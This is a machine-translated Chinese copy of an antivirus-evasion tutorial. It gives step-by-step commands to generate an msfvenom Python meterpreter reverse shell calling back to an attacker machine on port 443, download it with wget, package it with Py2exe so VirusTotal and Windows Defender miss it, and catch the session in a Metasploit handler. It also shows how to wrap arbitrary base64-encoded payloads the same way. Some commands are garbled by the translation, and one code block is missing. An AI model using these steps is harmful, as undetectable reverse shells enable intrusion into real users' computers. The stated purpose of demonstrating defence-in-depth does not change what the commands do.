










# 利用 Python 规避防病毒

> 原文：<https://infosecwriteups.com/antivirus-evasion-with-python-49185295caf1?source=collection_archive---------0----------------------->

# 摘要

在为您的组织部署深度防御安全控制时，您可能会将反病毒作为解决方案的一部分。这绝对是一个好的做法，只要我们记住，抗病毒药物只是增加了一层额外的保护，我们永远不应该仅仅依靠它来保护最终用户的设备。

良好的安全计划应始终包括深度防御控制，如软件更新治理、防火墙、培训/安全意识、物理安全、身份管理、密码策略等。然而，对于安全工程师来说，质疑这些额外层的必要性并不罕见，您可能需要演示如何轻松绕过抗病毒药物来证明您的观点。

在这篇文章中，我们将介绍一个非常直接的教程，关于如何在完全修补和更新的 Windows 环境中使用 Python 有效负载来躲避反病毒程序。

请记住，试图绕过防病毒是一场猫捉老鼠的游戏。每当一种新的规避技术流行时，反病毒供应商最终会了解它，并更新他们的签名数据库来阻止它。然后，新的规避技术将出现，这将使供应商将其添加到他们的签名数据库中，等等。

在撰写本文时，这里描述的方法已成功用于绕过 [Virus Total](http://www.virustotal.com) 上可用的所有供应商引擎，并在启用了 Windows Defender 的完全更新的 Windows 10 机器上成功执行恶意工件。

# Python 有效负载

基于签名的反病毒程序通过将工件二进制文件与签名数据库进行比较来工作。我们的目标是“伪装”我们的有效载荷，使其与任何反病毒供应商数据库中的任何已知签名都不匹配。基于行为的防病毒程序会尝试将已知的可疑活动与给定工件采取的操作进行匹配。我们的恶意软件将仅仅作为一个试图在端口 443 上启动 TCP 连接的客户端。这使得基于行为的反病毒程序更难标记这样的行为，而不会对合法应用程序(如网络浏览器)发出大量误报。

对于本例，我们将使用由 [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) 生成的 Python 有效负载，在端口 443 上向运行 Metasploit 的攻击者机器打开一个反向 TCP shell (meterpreter 会话)。像这样的工件显然是恶意的，应该被任何反病毒代理标记出来。

这里描述的方法足够灵活，因此您可以通过用您自己定制的 Python 有效负载替换我们的示例 msfvenom 有效负载来扩展它。

# 环境设置

我们建议在本教程中使用 3 台虚拟机:

[Kali Linux](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/) 用于创建有效负载和运行 Metasploit

[Windows metasplicable 3](https://github.com/rapid7/metasploitable3)用于将有效载荷打包成工件；

[Windows 10](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines) 全面打补丁运行最终神器；

我们使用两个不同的 Windows 虚拟机的原因是因为我们需要一个完全更新/修补的机器，以确保我们的工件将有很高的机会在任何给定的 Windows 环境下工作。另一方面，在用 Py2Exe 打包有效负载之前，一个完全打了补丁的机器总是会标记原始 Python 有效负载，这让您很难处理它。因此，在打包原始负载之前，需要 Metasploitable 3 虚拟机来处理它。

# 使用 Python 创建 FUD meterpreter 有效载荷

为了创建工件，我们建议使用 [Windows 元可编程 3](https://github.com/rapid7/metasploitable3) 作为您的主 Windows 环境。

为 Windows 安装 Python 2 . 7 . 16 x86:[https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)

***注意:**需要 Python 2.7 x86。即使您的 Windows 是 x64 机器，也要安装 32 位版本。此外，确保在安装过程中选择“将 python.exe 添加到路径”选项

为 Python 2.7 安装 Py2exe 32 位:[https://SourceForge . net/projects/py2 exe/files/py2 exe/0 . 6 . 9/py2 exe-0 . 6 . 9 . win32-py 2.7 . exe/download](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)

可选地，为 Windows 安装[开放 SSL](https://slproweb.com/products/Win32OpenSSL.html) 。

切换到 Kali Linux 机器并创建 Python 有效负载。

***注:**我们的 Kali Linux 使用的是 IP 地址 10.0.2.10。在本教程的所有剩余步骤中，请确保用当前 IP 替换它。

> MSF venom-p python/meter preter/reverse _ TCP LHOST = 10 . 0 . 2 . 10 LPORT = 443-f raw-o/var/www/html/mrtp . py
> 
> 服务 apache2 启动

将有效负载“mrtp.py”拷贝回您的 Windows 机器。使用 powershell，运行:

> wget[http://10 . 0 . 2 . 10/mrtp . py](http://10.0.2.10/mrtp.py)O mrtp . py

此外，创建一个包含以下内容的 setup.py 文件:

将独立的 Python 可执行文件与 Py2Exe 捆绑在一起:

> python.exe。\setup.py py2exe

测试在 dist 文件夹下创建的工件“mrtp.exe ”:

运行它:

> 。\dist\mrtp.exe

切换回 Kali Linux 并运行 Metasploit:

我们假设配置如下:Kali 虚拟机 IP: 10.0.2.10

> msfconsole
> 
> 使用漏洞利用/多重/处理程序
> 
> 设置有效负载 python/meterpreter/reverse_tcp
> 
> 设置 LHOST 10.0.2.10
> 
> 设置 LPORT 443
> 
> 奔跑

***注意:**根据设置 Metasploit 处理程序所需的时间，您可能需要再次在 Windows box 上运行 mrtp.exe。

既然我们已经确认我们的工件工作正常，让我们对照 VirusTotal 上所有可用的防病毒引擎来检查它。访问 www.virtutotal.com，提供你的“mrtp.exe”文件进行扫描。

如果一切顺利，你应该会得到一个类似于下面的[的干净报告。](https://www.virustotal.com/gui/file/ae5d74fac07fe36914778bf322d4656d838b872086764ab84985200acf25d774/detection?gclid=EAIaIQobChMIlc3wvfTd4gIVh8JkCh15bgqzEAAYASAAEgKV-_D_BwE)

现在是时候在 [Windows 10](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines) 机器上运行它了。将“mrtp.exe”文件直接复制到 Windows 10 盒子中。在现实生活中，您需要利用一些攻击媒介来部署它并在您的目标上执行它，但是，这超出了本文的范围。

确保您的 Metasploit 处理程序正在侦听端口 443，并在 Windows 10 机器上运行工件“mrtp.exe”。

如屏幕截图所示，工件的执行完全未被检测到，并且成功建立了一个 meterpreter 会话。

# 定制您自己的 Python 有效负载

您可以利用这种技术并使用您自己定制的 Python 有效负载。你需要做的就是重复上一个会话的步骤，用 msfvenom 生成“mrtp.py”文件后编辑它。您必须用自己的 Python 代码替换原始的 base64 编码字符串。

举个例子，让我们创建一个新的“custom _ payload . py”Python 脚本，它只打印两条消息，并将其用作我们的新负载。

创建之后，我们需要用 base64 编码对其进行编码:

> cat custom_payload.py | base64

对于我们使用的示例脚本，它将给出以下 base64 编码的字符串:“chjpbnqgkcjddxn 0 b 21 pemvkihbhewxvywqik qpwmludcaoikl 0 ihdvcmtzisipcg = =”

现在，我们编辑在前一个会话中使用的现有“mrtp.py”脚本，并用新的脚本替换以“aW1wb3J0IHNvY2t”开头的原始 base64 字符串。

自定义之后，最终结果应该类似于以下内容:

将新的“mrtp.py”复制回您的 Windows 计算机，并重复捆绑步骤:

> wget[http://10 . 0 . 2 . 10/mrtp . py](http://10.0.2.10/mrtp.py)O mrtp . py
> 
> python.exe。\setup.py py2exe
> 
> 。\dist\mrtp.exe

在执行新的“mrtp.exe”捆绑 Python 工件后，我们得到了打印在终端上的“定制有效负载”“它工作”字符串。

此时，您应该能够创建任何您想要的 Python FUD 工件，只需编辑“custom_payload.py”文件并将其与 Py2Exe 捆绑在一起。